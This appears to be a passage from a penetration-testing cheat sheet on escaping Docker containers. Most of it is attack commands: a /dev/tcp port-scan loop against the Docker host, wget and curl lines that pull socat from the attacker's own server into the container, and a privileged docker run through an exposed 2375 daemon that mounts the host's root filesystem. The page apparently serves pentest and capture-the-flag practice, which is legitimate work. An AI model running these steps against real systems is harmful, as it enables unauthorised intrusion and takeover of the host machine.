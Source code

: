 ```bash
nmap 172.17.0.1
for i in {1..65535}; do (echo > /dev/tcp/172.17.0.1/$i) >/dev/null 2>&1 && echo $i is open; done

# SSH
ssh <user>@<another_host>

# Check if docker command is available.
# If not, find the command in the container.
docker -h
find / -name "docker" 2>/dev/null

# Container capabilities
capsh --print
```

### Access Another Host

If we found another host but cannot access it by restrictions, we need to port forward.  
Please see [details](/exploit/network/port-forwarding/port-forwarding-with-chisel) for port fowarding.

### Import Required Binary from Local Machine

The container generally has few command that we want to use to exploit, so we need to import manually the command binaries if we need.  
Below are examples to transfer arbitrary binary into the docker container.

```bash
wget http://<local-ip>:8000/socat

curl <local-ip>:8000/scp -o socat
```

<br />

## Privilege Escalation to Root

Please see [Linux Privilege Escalation](/exploit/linux/privilege-escalation/).

<br />

## Run Vulnerable Docker Image

According to [Hacktricks](https://book.hacktricks.xyz/network-services-pentesting/2375-pentesting-docker#compromising), we can escape a docker container with the vulnerable image.  
Execute the following command in the target machine where a docker container is running..

```sh
docker -H 127.0.0.1:2375 run --rm -it --privileged --net=host -v /:/mnt alpine
cd /mnt/
```

<br />

